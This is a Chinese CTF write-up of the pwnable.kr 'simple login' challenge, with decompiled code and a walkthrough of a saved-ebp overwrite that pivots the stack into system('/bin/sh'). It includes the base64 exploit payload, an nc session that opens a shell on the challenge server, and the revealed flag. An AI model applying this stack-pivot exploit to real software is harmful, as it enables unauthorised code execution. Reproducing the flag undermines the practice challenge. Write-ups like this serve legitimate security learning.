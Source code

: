 ```yaml
---
title: pwnable.kr-simple login
date: 2018-02-25 22:24:00
tags: [pwnable.kr,PWN]
categories: CTF
copyright: true
---
```

# 前言
其实是一道很简单的栈溢出题目，但是我在分析代码的时候却浪费了不少时间，主要是没注意linux下`base64`命令在编码时会主动加上换行符`\n`的base64编码，导致逻辑分析错误，教训啊。
# 分析
还是得逆向`login`
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE *v4; // [sp+18h] [bp-28h]@1
  __int16 v5; // [sp+1Eh] [bp-22h]@1
  unsigned int v6; // [sp+3Ch] [bp-4h]@1

  memset(&v5, 0, 0x1Eu);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  printf("Authenticate : ");
  _isoc99_scanf("%30s", &v5);
  memset(&input, 0, 0xCu);
  v4 = 0;
  v6 = Base64Decode((int)&v5, &v4);
  if ( v6 > 0xC )
  {
    puts("Wrong Length");
  }
  else
  {
    memcpy(&input, v4, v6);
    if ( auth(v6) == 1 )
      correct();
  }
  return 0;
}
```
```c
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [sp+14h] [bp-14h]@1
  char *s2; // [sp+1Ch] [bp-Ch]@1
  int v4; // [sp+20h] [bp-8h]@1

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```
```c
void __noreturn correct()
{
  if ( input == -559038737 )
  {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}
```
贴上主要函数的反编译代码。主要逻辑是通过`auth`函数的判断可以给你个shell。分析`auth`函数可以知道，正常途径需要md5值跟`f87cd601aa7fedca99018a8be88eda34`相等才能通过判断，但是这个md5值计算的是栈上的数据，这里没有办法控制，而且这个md5值网上也没有破解到明文，所以此路不通。
继续程序逻辑可以发现，输入的字符串会经过`Base64Decode`解码，这个函数和上一题[md5 calculator](http://www.ktstartblog.top/index.php/archives/146/)算法一样，也存在溢出，但是这里由于限制的输入字符串只有30字节，只能从变量`v4`溢出到`v5`，作用不大。接下来程序限制了解码后的明文长度只能小于或等于`0xc`，然后明文会被复制到数据段的`input`变量中，进入`auth`函数内部可以发现这个函数调用`memcpy(&v4, &input, a1);`，然而`v4`实际上只有8个字节大小。如果明文最大12个字节的话，那么存储`ebp`的栈空间就会被覆盖。再看看`main`函数最后有一个`leave`指令，这个指令相当于`mov esp，ebp;pop ebp`，而这个`ebp`就是前面可以控制的栈空间中的`ebp`。那么之后函数返回时就能控制返回地址。
整理下思路：
1. 明文最大长度12字节，最后4字节填入存储执行的地址的地址在减4字节（还有`pop ebp`操作）如`input`地址
2. 明文前4字节填入要执行的地址，如`system('/bin/sh');`反汇编可以看到地址是`0x08049284`

exp如下
```bash
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.b64encode('\x84\x92\x04\x081234\x3c\xeb\x11\x08')
'hJIECDEyMzQ86xEI'
>>> quit()
```
```bash
root@1:~/桌面/test$ nc pwnable.kr 9003
Authenticate : hJIECDEyMzQ86xEI
hash : 7e562c3d896c061642d4d64162cbf94e
ls
flag
log
simplelogin
super.pl
cat flag
control EBP, control ESP, control EIP, control the world~


```
另外需要注意的是`auth`函数是没有`stack canary`保护的，所以可以放心覆盖。
# 总结
难度不难，但是要注意细节。